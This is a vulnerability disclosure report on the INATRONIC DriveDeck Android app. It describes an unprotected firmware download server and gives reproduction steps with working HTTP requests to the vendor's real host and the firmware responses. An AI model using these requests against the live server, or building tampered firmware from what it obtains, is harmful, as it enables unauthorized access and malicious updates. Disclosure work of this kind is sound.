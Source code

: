 # Vulnerability Report - com.inatronic.drivedeck.home- Incorrect Access Control

**Product:** `com.inatronic.drivedeck.home`

**Vendor:** [INATRONIC](https://drivedeck.de/)

**Version:** 2.6.23

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.inatronic.drivedeck.home , developed by **INATRONIC**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `f5311a` Field value in the `C1452d`method provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003183238140](https://s2.loli.net/2024/10/03/SwIMAkgEKaG6z7V.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET <http://download.inatronic.com/version/download_firmware_cypdd.php> HTTP/1.1
   User-Agent: Fiddler
   Host: download.inatronic.com
   ```

   ```http
   GET http://download.inatronic.com/version/download_firmware_ios.php HTTP/1.1
   User-Agent: Fiddler
   Host: download.inatronic.com
   
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Transfer-Encoding: chunked
   Cache-Control: private
   Content-Disposition: inline; filename=drivedeck_cdd_v30.dat
   Content-Transfer-Encoding: binary
   Content-Type: application/application  ; name=drivedeck_cdd_v30.dat
   Date: Thu, 03 Oct 2024 10:19:56 GMT
   Expires: 0
   Pragma: public
   Server: Apache
   
   6c00
    Ǣ   Rۇ H .֭.^       `  J ު   \\   R ! Jou ϕ  WV d   5k/   # :  7 Er   8 	 !
   ......
   ```

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Transfer-Encoding: chunked
   Cache-Control: private
   Content-Disposition: inline; filename=drivedeck_ios_v27.dat
   Content-Transfer-Encoding: binary
   Content-Type: application/application  ; name=drivedeck_ios_v27.dat
   Date: Thu, 03 Oct 2024 10:23:06 GMT
   Expires: 0
   Pragma: public
   Server: Apache
   
   761a
   r i  tXɋ 0 V  VD     A- " Vzf@u CC    \ ˴ @:"ylb   s B]7ه Ex c ! x  ,
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003183509235](https://s2.loli.net/2024/10/03/WbPNA8RXwlpiqhV.png)

   In total, we successfully downloaded **4 firmware** by exploiting the vulnerability.

## Impact

An attacker can exploit this vulnerability to:

- Download the latest firmware before it is officially released.
- Analyze the firmware for vulnerabilities or proprietary information.
- Create modified firmware images with malicious code.
- Distribute compromised firmware updates to unsuspecting users.

## Remediation

- Implement proper access control on the firmware server, such as device ID and user ID verification.
- Enhance the app's firmware update mechanism to include authentication credentials in the requests.

## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.
